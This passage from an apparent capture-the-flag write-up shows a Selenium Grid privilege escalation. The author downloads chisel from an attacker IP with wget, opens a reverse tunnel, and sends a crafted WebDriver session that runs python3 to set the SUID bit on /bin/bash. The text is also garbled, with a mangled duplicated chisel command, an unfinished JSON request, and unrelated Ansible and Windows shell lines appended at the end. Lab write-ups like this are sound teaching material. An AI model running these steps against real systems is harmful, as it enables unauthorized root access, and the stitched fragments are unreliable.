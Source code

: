 First I’ll forward the port `4444` running locally on the machine to my local machine using `chisel`. I’ll run a chisel server on my machine:

```
hcue@pjsk:~/htb-trustable » chisel server -p 8888 --reverse
2022/12/05 06:10:10 server: Reverse tunnelling enabled
2022/12/05 06:10:10 server: Fingerprint H7MAdhulXPbLGvJaJWk7UmAzd8e/4NPB4rlR4eDaklQ=
2022/12/05 06:10:10 server: Listening on http://0.0.0.0:8888
```

Download chisel to the remote machine and I’ll forward the port:

```
john@electrogrid:/dev/shm$ wget 10.10.14.57/chisel
john@electrogrid:/dev/shm$ chmod +x ./chisel
john@electrogrid:/dev/shm$ ./chisel client 10.10.14.57./chisel client 10.10.14.57:8888 R:4444:127.0.0.1:4444 &
./chisel client 10.10.14.57:8888 R:4444:127.0.0.1:4444 &
```

And we’ll get a connection.

```
2022/12/05 06:11:47 server: session#1: tun: proxy#R:4444=>4444: Listening
```

Now we can access the Selenium Grid from our machine.

![A screenshot of Selenium web grid interface](/assets/img/stack-the-flags-2022/selenium-grid-web.png)

And now I’ll create the malicious session where it will set the `suid` bit to the `/bin/bash` binary.

```http
POST /wd/hub/session HTTP/1.1
Host: localhost:4444
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 276

 {
    "capabilities": {
        "alwaysMatch": {
            "browserName": "chrome",
            "goog:chromeOptions": {
                "binary": "/usr/bin/python3",
                "args": ["-cimport os;os.system('chmod u+s /bin/bash')"]
            }
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname